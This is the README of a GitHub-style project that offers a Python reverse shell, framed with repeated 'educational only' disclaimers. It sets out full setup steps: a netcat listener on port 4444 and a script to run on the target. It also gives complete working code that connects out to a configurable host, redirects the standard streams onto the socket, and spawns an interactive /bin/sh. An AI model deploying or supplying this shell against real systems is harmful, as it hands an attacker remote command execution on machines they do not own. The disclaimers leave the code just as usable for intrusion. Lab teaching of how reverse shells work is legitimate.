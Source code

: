 # ⚡ Python Reverse Shell Demo

![Python](https://img.shields.io/badge/Python-3.8+-blue.svg)
![Security](https://img.shields.io/badge/Security-Educational-red.svg)
![License](https://img.shields.io/badge/License-MIT-green.svg)
![Platform](https://img.shields.io/badge/Platform-Linux%20%7C%20macOS-lightgrey.svg)

### 🎓 Educational Python Reverse Shell for Cybersecurity Training

A simple, well-documented reverse shell implementation in Python designed specifically for ethical hacking education and cybersecurity training. Learn network programming and penetration testing fundamentals safely and legally.

---

## ⚠️ Important Disclaimer

**FOR EDUCATIONAL USE ONLY!**

This code is strictly for:
- 🎓 Cybersecurity education and training
- 📚 Learning ethical hacking concepts
- 🧪 Authorized penetration testing labs
- 📄 Security research with permission

⛔ **Unauthorized use is illegal and strictly prohibited!**

---

## ✨ Features

- 🐍 **Pure Python** - No external dependencies required
- 📚 **Well-Commented** - Easy to understand code structure
- 🔧 **Simple Setup** - Quick configuration and deployment
- 🎯 **Educational** - Perfect for learning networking concepts
- 🔒 **Safe Demo** - Designed for controlled environments

---

## 🛠️ How It Works

1. **Connection**: Script connects to a remote listener (attacker machine)
2. **Shell Access**: Provides command-line interface to the target system
3. **Execution**: Executes commands sent from the listener
4. **Demonstration**: Shows reverse shell concepts in action

---

## 🚀 Quick Start

### Prerequisites

- Python 3.x installed
- Network connectivity
- Permission to test in your environment

### Setup

1. **Start a listener** on your machine:
```bash
nc -lvp 4444
```

2. **Configure the script**:
- Edit `host` to your listener IP address
- Edit `port` to match your listener port

3. **Run the script** on the target (training) machine:
```bash
python reverse_shell.py
```

---

## 💻 Code Example

```python
# Educational Python Reverse Shell
# For cybersecurity training only

import socket, subprocess, os

host = '127.0.0.1'  # Change to your listener IP
port = 4444         # Change to your listener port

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))

os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

p = subprocess.call(['/bin/sh', '-i'])
```

---

## 🎯 Learning Objectives

- Understanding reverse shell concepts
- Network socket programming in Python
- Client-server communication
- Process execution and redirection
- Ethical hacking methodologies

---

## 🛡️ Security Notes

- ⚠️ Always use in isolated lab environments
- 🔒 Never deploy on production systems
- 📄 Obtain written permission before testing
- 📊 Use for defensive security training
- ⚖️ Comply with all local laws and regulations

---

## 🤝 Contributing

Contributions for educational improvements are welcome:
- 🐛 Report security issues
- 💡 Suggest educational enhancements
- 📚 Improve documentation
- ⭐ Star for educational value

---

## 📄 License

MIT License - For educational purposes only

---

## 👨‍💻 Author

**Rahit Biswas**
- 🌐 Website: [codaphics.com](https://codaphics.com)
- 💼 LinkedIn: [Rahit Biswas](https://www.linkedin.com/in/rahit-biswas-786939153)
- 📧 Email: r.codaphics@gmail.com

---

**🔴 ETHICAL HACKING AND CYBERSECURITY EDUCATION ONLY!** 🔴
